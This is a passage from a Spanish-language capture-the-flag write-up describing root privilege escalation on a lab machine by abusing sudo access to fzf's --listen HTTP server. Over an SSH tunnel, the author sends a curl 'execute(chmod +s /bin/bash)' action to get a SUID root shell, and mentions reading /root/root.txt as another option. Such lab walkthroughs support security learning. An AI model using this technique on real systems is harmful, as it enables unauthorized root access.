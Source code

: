 >Ahí está la bandera, si me diese el programa `fzf` la opción de ejecutar comandos en su interfaz, podría lanzar un `cat` y problema resuelto.

* Luego el *truco* debe estar en el parámetro `--listen`. En este manual [https://man.archlinux.org/man/fzf.1.en#listen_=HTTP_PORT_] viene la descripción

```php

--listen[=HTTP_PORT]
Start HTTP server on the given port. It allows external processes to send actions to perform via POST method.
If the port number is omitted or given as 0, fzf will choose the port automatically and export it as FZF_PORT environment
variable to the child processes started via execute and execute-silent actions.
e.g. # Start HTTP server on port 6266
fzf --listen 6266

# Send action to the server curl -X POST localhost:6266 -d 'reload(seq 100)+change-prompt(hundred> )'
```
> Si tuviese abierto el puerto al exterior, podría conectarme directamente al puerto y en vez de reload
> puedo mandar un `execute` e intentar ejecutar algún comando.
> Puede ser por ejemplo un `cat /root/root.txt` o un `chmod +s /bin/bash` 😈

* NOTA: Al ejecutar el chmod +s (como root), le estoy asignando un permiso especial de **SUID** y significa que cualquier usuario que ejecute ese comando, lo ejecutará con los privilegios del que asignó ese permiso, o sea, tendre una bash con privilegios de `root`

* Para solucionar el problema de accesibilidad a ese puerto que no está abierto en la máquina de la víctima, lo tunelizo a traves de SSH.

```php
# máquina de ataque
ssh -i id_rsa bela@192.168.0.104 -L 1337:127.0.0.1:1337
```
* Ejecuto como `root` el comando

```php
bela@doll:~$ sudo /usr/bin/fzf --listen\=1337
```
* Ahora ya desde una consola nueva, en mi máquina de ataque, puedo lanzar la consulta de curl, al puerto ese en localhost, porque está redirigido

```php
curl -X POST 127.0.0.1:1337 -d 'execute(chmod +s /bin/bash)'
```
>Otra opción sería ejecutar un `cat /root/root.txt`. Con esto conseguiríamos la bandera pero no la elevación a *root* 

* Compruebo en la máquina víctima que se ha asignado el permiso de **SUID**

![web](80-2.png)
